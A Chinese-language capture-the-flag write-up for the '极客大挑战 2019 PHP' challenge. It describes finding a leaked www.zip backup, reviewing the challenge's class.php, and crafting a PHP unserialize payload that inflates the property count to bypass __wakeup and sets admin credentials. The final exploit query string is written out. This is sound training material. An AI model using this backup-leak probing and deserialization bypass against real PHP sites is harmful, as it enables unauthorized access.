 # [极客大挑战 2019]PHP 1

- 进入网页，提示 `我有一个良好的备份习惯` ，说明可能存在备份泄露，输入 `/www.zip` 弹出下载框

> <img src="../../IMG2/Screenshot 2024-05-20 204643.png">

- 下载压缩包，里面有三个文件 `index.php` ， `flag.php` 和 `class.php` ，首先查看 `flag.php` ，有个假flag，跳过，再查看 `index.php` ，发现需要接收一个GET方式的参数select，并且需要进行反序列化

> <img src="../../IMG2/Screenshot 2024-05-20 204842.png">

- `index.php` 中包含了 `class.php` ，前往查看，如下

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

- 简单来说，有一个类Name，里面包含了username和password两个私有属性，我们需要构造的就是这两个属性，在属性创建完成后，代码执行了一次 `__wakeup()` 方法，这个方法强制将username属性赋值为了guest，然后执行 `__destruct()` 方法，在该方法内，需要password等于100，并且username等于admin，这里就是破题的关键，无论username传入的值为多少，都会被强制覆盖为guest，因此需要绕过 `__wakeup()` 方法，绕过的方法也很简单，当属性的数量大于实际数量时， `__wakeup()` 方法就会失效，因此序列化代码如下

```php
<?php
class Name{
    private $username = 'admin';
    private $password = 100;
}
$name = new Name();
echo serialize($name);
```

- 执行得到 `O:4:"Name":2:{s:14:"口Name口username";s:5:"admin";s:14:"口Name口password";i:100;}` ，先将 `O:4:"Name":2` 改为 `O:4:"Name":3` 绕过 `__wakeup()` 方法，然后将 `口` 改为 `%00` ，这是在生成时出现的编码错误，最终payload如下

`?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

- 传入index.php，得到flag

> <img src="../../IMG2/Screenshot 2024-05-20 205848.png">